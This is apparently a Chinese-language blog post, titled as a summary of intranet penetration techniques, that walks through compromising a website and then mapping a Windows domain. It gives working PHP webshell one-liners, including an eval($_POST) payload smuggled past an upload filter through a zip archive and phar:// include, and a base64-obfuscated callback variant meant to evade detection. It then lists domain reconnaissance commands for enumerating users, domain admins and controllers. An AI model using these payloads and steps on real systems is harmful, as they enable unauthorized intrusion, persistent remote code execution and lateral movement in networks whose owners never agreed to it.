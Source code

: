 ```yaml
---
layout: post
title:  史上最强内网渗透知识点总结
tags: 基础知识 渗透 内网渗透
categories: 基础知识
published: true
---
```




### 获取 webshell 进内网

测试主站，搜 wooyun 历史洞未发现历史洞，github, svn, 目录扫描未发现敏感信息, 无域传送，端口只开了80端口，找到后台地址，想爆破后台，验证码后台验证，一次性，用 ocr 识别，找账号，通过 google，baidu，bing 等搜索，相关邮箱，域名等加常用密码组成字典，发现用户手册，找账号，发现未打码信息，和默认密码，试下登陆成功，找后台，上传有 dog，用含有一句话的 txt 文件

>   ```
>   <?php eval($_POST['cmd']);?>
>   ```

打包为 zip，php 文件

>   ```
>   <?php include 'phar://1.zip/1.txt';?>
>   ```

即可，c 刀被拦，修改 config.ini 文件

>   ```
>   php_make @eval(call_user_func_array(base64_decode,array($_POST[action])));
>   ```

用回调函数，第一个为函数名，二个为传的参数

### 前期信息收集

>   query user || qwinsta 查看当前在线用户
>
>   net user  查看本机用户
>
>   net user /domain 查看域用户
>
>   net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
>
>   net view /domain 查看有几个域
>
>   net view \\\\dc  查看 dc 域内共享文件
>
>   net group /domain 查看域里面的组
>
>   net group "domain admins" /domain 查看域管
>
>   net localgroup administrators /domain  /这个也是查域管，是升级为域控时，本地账户也成为域管
>
>   net group "domain controllers" /domain 域控
>
>   net time /domain
>
>   net config workstation  当前登录域 - 计算机名 - 用户名
>
>   net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
>
>   ipconfig
>
>   systeminfo